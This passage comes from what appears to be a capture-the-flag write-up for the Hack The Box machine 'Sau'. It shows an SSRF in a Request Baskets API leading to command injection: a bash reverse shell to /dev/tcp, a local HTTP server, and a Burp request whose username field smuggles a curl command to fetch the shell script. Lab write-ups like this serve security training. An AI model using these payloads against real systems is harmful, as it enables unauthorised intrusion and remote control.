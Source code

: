 ![command injection](https://github.com/bsv1n4y/WriteUps/blob/main/HTB/Sau/command-injection.png?raw=true)

Note: change basket name to anybasket2 in url (otherwise we get basket already exist error)
We see that after hitting http://10.10.11.224:5555/anybasket2, the server hangs for 10 sec and displays login failed.
***We have now confirmed command injection***
Let us get a reverse shell

We create shell.sh script,
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.107/4444 0>&1
```
We stand up a http server
```bash
sudo python3 -m http.server 80
```
In burpsuite change payload to download our script and store in /dev/shm,
```bash
POST /api/baskets/anybasket3 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/json
Content-Length: 160

{
	"forward_url": "http://127.0.0.1/login?username=;`curl+http://10.10.14.107/shell.sh+-o+/dev/shm/shell.sh`",
	"proxy_response": true,
	"insecure_tls": false,
	"expand_path": true,
	"capacity": 250
}
```
when we hit anybasket3, it downloads the file.